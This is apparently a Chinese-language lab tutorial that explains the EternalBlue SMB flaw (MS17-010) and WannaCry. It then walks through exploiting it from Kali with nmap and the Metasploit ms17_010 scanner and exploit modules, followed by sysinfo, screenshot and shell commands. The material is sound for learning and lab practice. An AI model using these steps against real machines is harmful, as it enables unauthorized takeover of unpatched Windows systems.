

永恒之蓝（Eternal Blue）爆发于2017年4月14日晚，是一种利用Windows系统的SMB协议漏洞来获取系统的最高权限，以此来控制被入侵的计算机。甚至于2017年5月12日， 不法分子通过改造“永恒之蓝”制作了wannacry勒索病毒，使全世界大范围内遭受了该勒索病毒，甚至波及到学校、大型企业、政府等机构，只能通过支付高额的赎金才能恢复出文件。不过在该病毒出来不久就被微软通过打补丁修复。
SMB（全称是Server Message Block）是一个协议服务器信息块，它是一种客户机/服务器、请求/响应协议，通过SMB协议可以在计算机间共享文件、打印机、命名管道等资源，电脑上的网上邻居就是靠SMB实现的；SMB协议工作在应用层和会话层，可以用在TCP/IP协议之上，SMB使用TCP139端口和TCP445端口。
1 | kali ip:192.168.135.128 |
我们首先先用nmap扫描一下漏洞，
发现扫出来的几个漏洞里边就包含ms17-010
打开msfconsole并且搜索该漏洞的利用方式
发现他给出了四个利用的模块，我们先用scan模块进行扫描
1 | use auxiliary/scanner/smb/smb_ms17_010 |
查看配置信息
1 | options |
然后根据设置信息里边的要求(required)设置信息
rhost给的解释就是目标的ip，其他的用默认的就可以
显示扫描成功(如果在这个地方出错了可以去关闭目标机器的防火墙和杀毒软件什么的)
然后我们换成攻击模块
1 | use exploit/windows/smb/ms17_010_eternalblue |
1 | 设置目标机ip |

这样就是成功进入了
sysinfo查看系统信息

screenshot抓取桌面图片

反弹shell
如果出现乱码的话可以执行chcp 65001